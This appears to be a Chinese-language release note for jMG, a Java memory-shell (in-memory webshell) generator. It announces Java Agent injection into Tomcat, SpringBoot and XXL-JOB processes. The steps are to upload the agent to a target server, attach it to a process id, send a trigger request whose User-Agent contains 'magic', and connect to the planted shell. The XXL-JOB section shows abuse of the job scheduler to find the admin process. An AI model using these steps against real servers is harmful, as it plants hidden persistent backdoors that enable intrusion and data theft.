










# jMG v1.0.8 - Java Agent 篇

鸽了半年的功能 —— 跨 JVM 进程注入内存马。

https://github.com/pen4uin/java-memshell-generator/issues/4

## 0x01 简介

新增对 Tomcat 和 SpringBoot(SpringMVC) Agent 注入内存马的支持，并分别在 Tomcat 8 + JDK 8、SpringBoot 2 + JRE 8、XXL-JOB 2.1.0 完成测试。

## 0x02 功能测试

### Tomcat 8 + JDK 8

0、测试环境

- Tomcat 8.5
- JDK 8

1、选择 Tomcat + JAR_AGENT



2、将 agent 传到目标服务器上执行

```shell
# list pid
java -jar jmg-agent.jar
# attach pid
java -jar jmg-agent.jar [pid]
```



3、注入内存马

- 携带 User-Agent: magic 触发内存马注入逻辑

```http
GET / HTTP/1.1
Host: 127.0.0.1:9090
User-Agent: Mozilla/5.0 (Macintosh; magic Mac OS X 10.15; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: image/avif,image/webp,*/*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
```

4、按照基础信息进行连接



### SpringBoot 2 + JRE 8

0、测试环境
- SpringBoot 2.5.3 + Embedded Jetty
- JRE 8

1、选择 SpringMVC + JAR_AGENT



2、将生成的 agent 传到目标服务器上执行

纯 jre 环境无 tools.jar，jmg-agent 会自动释放内置 tools.jar 到临时目录



3、注入内存马

- 携带 User-Agent: magic 触发内存马注入逻辑

```http
GET / HTTP/1.1
Host: 127.0.0.1:9090
User-Agent: Mozilla/5.0 (Macintosh; magic Mac OS X 10.15; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: image/avif,image/webp,*/*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
```

4、按照基础信息进行连接



### XXL-JOB (executor -> admin)

0、测试环境

- XXL-JOB 2.1.0
- JDK 8
- Executor 与 Admin 在同一台服务器上

1、选择Tomcat + JAR_AGENT



2、将 agent 写到目标服务器上执行

(1) 新增任务列 pid



(2) 调度日志看结果

```text
[*] Found pid 76495 ——> [com.xxl.job.admin.XxlJobAdminApplication]
[*] Found pid 76592 ——> [com.xxl.job.executor.XxlJobExecutorApplication]
```

(3) 选择 admin pid 进行 attach



(4) attach 成功


3、注入内存马

- 携带 User-Agent: magic 触发内存马注入逻辑

```http
GET /xxl-job-admin/toLogin HTTP/1.1
Host: 127.0.0.1:9090
User-Agent: Mozilla/5.0 (Macintosh; magic Mac OS X 10.15; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
```

4、按照基础信息进行连接



## 0x03 小结

测试环境属于较理想环境，实战可能会遇到各种坑点，若有问题反馈与讨论请附上环境信息+报错日志。
